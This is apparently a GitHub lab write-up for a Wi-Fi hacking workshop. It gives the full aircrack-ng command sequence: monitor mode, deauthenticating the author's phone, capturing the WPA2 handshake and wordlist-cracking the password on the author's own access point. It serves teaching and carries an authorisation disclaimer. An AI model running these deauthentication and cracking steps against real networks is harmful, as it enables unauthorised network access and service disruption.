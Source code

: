 # Wi\-Fi Hacking Workshop

Summary: I will be gathering the Access Point MAC address and MAC address of my phone. I will then 
send 10 deauthentication packets which will cause my phone to disconnect and reauthenticate to the Access Point. We then capture the authentication prcoess save it locally and crack the password

![](img/WifiHackingWorkshop0.png)

### Disclaimer

Do not hack into any networks without prior authorisation

### Wireless AP Setup

Configure the Wireless Access point

![](img/WifiHackingWorkshop1.png)

### Adapter Setup

link: [https://github\.com/gnab/rtl8812au](https://github.com/gnab/rtl8812au)

enter these commands in the terminal:

sudo apt\-get update

sudo apt\-get install linux\-headers\-$\(uname \-r\)

git clone [https://github\.com/gnab/rtl8812au](https://github.com/gnab/rtl8812au)

cd rtl8812au

make

sudo insmod 8812au\.ko

sudo cp 8812au\.ko /lib/modules/$\(uname  r\)/kernel/drivers/net/wireless

sudo depmod

sudo apt\-get install build\-essential dkms

sudo make dkms\_install

echo 8192eu | sudo tee \-a /etc/modules

### Adapter Setup

Add the Wireless adapter to VirtualBox

![](img/WifiHackingWorkshop2.png)

### Adapter Setup

sudo airmon\-ng check kill checks for conflicting processes and kills them. This however will result in loss of internet for the VM, can be solved by restarting.

Iwconfig shows the adapter names. In my case wlan0 is the wireless adapter.

sudo airmon\-ng start wlan 0 - Starts the wireless adapter in monitor mode.

![](img/WifiHackingWorkshop3.png)

### Discovering BSSID

sudo airodump\-ng \-c 11 wlan0 - discovers access points on channel 11 using wlan0

BSSID is the access point MAC address of the router. In this case we are looking at the BSSID for CyberSec

![](img/WifiHackingWorkshop4.png)



### Discovering devices

The MAC address of 0C:8D:CA:A6:94:8D is my phone and that is where the deauthentication packets are getting sent.

![](img/WifiHackingWorkshop5.png)

### De-Auth Attack

sudo airodump\-ng \-c 11 \-\-bssid B0\-95\-75\-5C\-3B\-94 \-w psk wlan0 - this captures packets for the CyberSec accesspoint and saves it locally to a file named psk

sudo aireplay\-ng \-0 10 \-a B0:95:75:5C:3B:94 \-c 0C:8D:CA:A6:93:8D wlan0 - This sends 10 deauthentication packets to my phone which will disconnect from the Access Point and automatically reconnect. The reauthenication process for the wpa2 handshake is captured and saved locally

![](img/WifiHackingWorkshop6.png)

### Cracking Password
Using the previous wpa2 handshake capture we can brute force the password using a passwordlist. I created one called passwordlist with the password of Password1 in it for lab demostration purpose. But Kali has default wordlists in the /usr/share/wordlists directory

aircrack\-ng \-w passwordlist\.txt psk\-02\.cap - This is what is used to crack the password.

![](img/WifiHackingWorkshop7.png)

